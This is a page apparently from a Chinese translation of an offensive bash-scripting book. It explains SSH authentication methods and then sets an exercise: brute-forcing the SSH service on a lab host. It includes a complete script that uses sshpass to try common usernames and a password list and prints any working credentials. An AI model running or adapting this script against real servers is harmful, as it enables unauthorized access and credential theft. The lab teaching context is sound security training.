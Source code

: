 尝试通过 SSH 连接到 *p-jumpbox-01* 后，您看到的警告信息表示 SSH 客户端没有将主机的公钥存储在 *known_hosts* 文件中。此文件用于验证您正在连接的主机的真实性，而 *ED25519 密钥指纹* 表示服务器的公钥。通过输入 yes，我们继续进行 SSH 连接，并将主机的公钥存入我们的 *known_hosts* 文件中。

SSH 允许基于密码和基于密钥的认证。在*基于密码的认证*中，用户提供其用户名和密码来验证自己的身份以访问远程服务器。在*基于密钥的认证*（也称为*公钥认证*）中，用户提供一个加密密钥来验证自己的身份。在尝试暴力破解 SSH 服务器之前，验证服务器是否接受基于密码的认证非常重要。

要测试服务器是否允许基于密码的认证，只需观察在尝试初始连接后服务器的响应。例如，您可以看到我们的初始连接尝试产生了对用户密码的提示。或者，您可以使用 Nmap 位于*/usr/share/nmap/scripts*下的内置 NSE 脚本*ssh-auth-methods.nse*。

如果服务器立即拒绝连接或者提供了一个通用的错误消息而不提示您输入密码，那么可能不允许基于密码的认证或者这不是服务器的主要认证方法。

练习 11：对 SSH 服务器进行暴力破解

在这个练习中，您将使用 bash 对运行在*p-jumpbox-01*（172.16.10.13）服务器上的 SSH 服务进行基于字典的暴力破解攻击。您的脚本应该迭代常见用户名和密码的列表，尝试对服务器进行身份验证，并记录任何成功的凭据。

在编写 SSH 暴力破解脚本之前，您需要两样东西。首先，您必须识别单个目标用户名或生成一个用户名列表进行迭代。在侦察期间没有识别到任何用户名，因此尝试使用常见的 Linux 用户名列表，如*root*、*guest*、*backup*、*ubuntu*和*centos*。当然，这只是猜测这些用户是否存在于目标服务器上。

其次，您需要一个潜在密码列表。Kali 包含了一个在*/usr/share/wordlist*目录中的出色密码列表，但我们建议使用书籍 GitHub 仓库中的*common-credentials/passwords.txt*密码文件。

有了您的用户名和密码列表，您可以编写一些 bash 脚本来测试*p-jumpbox-01*服务器认证的强度。第 7-5 节提供了一个示例。

ssh-bruteforce.sh

```
#!/bin/bash

# Define the target SSH server and port.
TARGET="172.16.10.13"
PORT="22"

# Define the username and password lists.
❶ USERNAMES=("root" "guest" "backup" "ubuntu" "centos")
❷ PASSWORD_FILE="passwords.txt"

echo "Starting SSH credential testing..."

# Loop through each combination of usernames and passwords.
❸ for user in "${USERNAMES[@]}"; do
❹ while IFS= read -r pass; do
    echo "Testing credentials: ${user} / ${pass}"

    # Check the exit code to determine if the login was successful.
    if sshpass -p "${pass}" ssh -o "StrictHostKeyChecking=no" \
             ❺ -p "${PORT}" "${user}@${TARGET}" exit >/dev/null 2>&1; then
    ❻ echo "Successful login with credentials:"
      echo "Host: ${TARGET}"
      echo "Username: ${user}"
      echo "Password: ${pass}"

 # Perform additional actions here using the credentials
      exit 0
    fi
  done < "${PASSWORD_FILE}"
done
echo "No valid credentials found." 
```
